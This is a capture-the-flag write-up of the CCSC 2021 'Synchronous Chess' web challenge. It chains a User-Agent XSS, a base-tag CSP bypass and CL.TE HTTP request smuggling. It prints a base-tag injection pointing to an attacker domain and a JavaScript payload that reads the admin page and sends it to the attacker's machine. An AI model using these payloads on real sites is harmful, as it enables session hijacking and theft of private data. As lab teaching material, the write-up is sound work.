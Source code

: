 ```yaml
---
title: CCSC 2021&#58; Synchronous Chess
tags: ccsc web xss smuggling writeup
---
```


## Description
The final match of the Moscow Invitational (1968) has been adjourned at the request of the defending World Champion, Vassily Borgov. His next move has been stored for safe keeping by the arbiters of the tournament, until the match resumes tomorrow. However, the arbiters cannot be trusted 100% so we need to help Beth smuggle out the move so she can be sure that no foul play will abound.

Challenge running at: [http://192.168.125.11:7000](http://192.168.125.11:7000/)

___

Reading the description i didn't get any hint towards what the challenge might be, so i quickly opened the web app and started testing. The web apps home page greets us with a login page.

![](images/Pasted%20image%2020210421194104.png)

I first tried some defualt easy-to-guess credentials but no luck there, then i thought about testing for SQL injections but before i started testing i wanted to first enumerate the application a litte, so i started up burp and checked for 404,401,500 and 400 error pages and something odd stood out to me.

As you can see from the image below, a 404 error prints my user-agent at the bottom, but that didnt show in the web app, sneaky author. Next i tested for XSS by changing my user agent to `User-Agent: <script>alert(1)</script>`

![](images/Pasted%20image%2020210421194558.png)

![](images/Pasted%20image%2020210421194907.png)

The script tag got injected to the web app but did not work so i opened my developer tools to check what the error might be:

![](images/Pasted%20image%2020210421194948.png)

Looks like the CSP (Content Security Policy) protected this web page from executing my inline javascript. One can find the CSP configuration from the response headers, in this case it was: 
```
default-src 'self'; script-src 'self' 'nonce-UpZ2W3JTsZCvHOlE'; img-src 'self'; object-src 'none'
```

I quickly threw this policy in a [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and it showed an error that the CSP might be bypassable:


![](images/Pasted%20image%2020210421195241.png)

```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```

I googled online what a [base](https://www.w3schools.com/tags/tag_base.asp) tag is, basically you can add a `base` tag to reference the url that contains all included javascript/css files. Meaning if i add a `base` tag like:

`<base href="http://attacker.com">`

and the web page wanted to fetch `/js/main.js` it would make a request to `http://attacker.com/js/main.js`, and since i control the attacker domain i can easily clone the directory tree and include my own javascript file, bypassing the CSP and getting XSS. 

The CCSC gave all its competitors an attack machine (192.168.125.100) which we could use to get reverse shells, etc. since the challenges cannot access the internet.

I next viewed the source code of the app to see which javascript file i could fake, i used `/static/js/main.js`. I ssh'ed into my attack machine, created the directory tree and a `main.js` file with `<script>alert(1)</script>` as its contents. Then i used `php` to start a web server on port `1234`

![](images/Pasted%20image%2020210421201658.png)

Next i made the same request to get a 404 response but with a `User-Agent` like so: `User-Agent: <base href="http://192.168.125.100:1234/">`. Sent the request and requested the reponse in my browser. As you can see from the screenshot below  it worked! The web page requested the `main.js` file from my attack machine and found it, executing my alert.

![](images/Pasted%20image%2020210421201736.png)

Up until this part was quite easy for me, i had reflected XSS on the web site but did not know how that could help me further. How can i make another user send a request with a custom user-agent? After digging in the application a bit more i noticed a `/admin` path that was restricted, i did not try any header manipulating techniques to bypass the ip restriction since i was 99% sure that the XSS was there for a reason.

![](images/Pasted%20image%2020210421202541.png)

Since i was stuck i went to [burp academy](https://portswigger.net/web-security/all-labs) (I believe you need an account to view the labs) and checked all the Labs that were available, maybe get an idea how to exploit my reflected XSS further and noticed one lab that could help me.

![](images/Pasted%20image%2020210421203024.png)

Http request smuggling sounds perfect for this challenge, in simple terms if the web app is prone to http request smuggling i could send a request like the below screenshot. By abusing the `Content-Length` or `Transfer-Encoding` header the front-end and backend do not aggree on which one to use, as a result the back-end views the smuggled request as a seperate one, this request get stored in the web cache and the next request another user makes will get the response of the smuggled request. 

![](images/Pasted%20image%2020210421204219.png)


I added the `HTTP Request Smuggler` extension to burp suite and scanned the web application for request smuggling on the POST /login endpoint. Then the issue i was expecting appeard, `Possible HTTP Request Smuggling`. 

![](images/Pasted%20image%2020210421221039.png)

Perfect, I sent the above request to my repeater and used the smuggle attack(CL.TE) to check if i could smuggle a request. As you can see from the below screenshots, i smuggle a GET request to a non-exsitent page witin my POST request to `/login`. In the second screenshot we notice that at some point the POST request to `/login` responded with 404!

![](images/Pasted%20image%2020210421221322.png)

![](images/Pasted%20image%2020210421221222.png)

Now all i needed to do is modify the request to include my custom `User-Agent` with the base tag and hopefully i will notice the admin user making requests to my attack machine.

And there you go, i am now getting requests on my attack machine from the admin user

![](images/Pasted%20image%2020210421222129.png)

But all that is happening to the admin user is a simple alert box, i want to see the contents of `/admin`, i updated my `main.js` file to simply make an ajax request to `/admin` and then redirect the admin to my attack machine with `window.location.replace` and add the contents from the ajax request in a GET parameter url encoded

Here is the final payload of `main.js`

```javascript
var x = new XMLHttpRequest(); 
x.open("GET", "http://192.168.125.11:7000/admin");
x.onload = function(){
        response = btoa(x.responseText);
        window.location.replace("http://192.168.125.100:1234/?".concat(response));
 }; 
 x.send(); 
```

Again, sent my smuggled request and BOOM, got the base64 encoded response on my server logs

![](images/Pasted%20image%2020210421224642.png)

Now i just decoded the base64 query parameter and got the flag.

![](images/Pasted%20image%2020210421224814.png)

flag: `CCSC{h77p_R3Qu357_5muGGl1N_15_5up3R_pHuN}`

This was my favourite challenge in the CCSC competition, a big well done to `styx00` for creating such a sick challenge.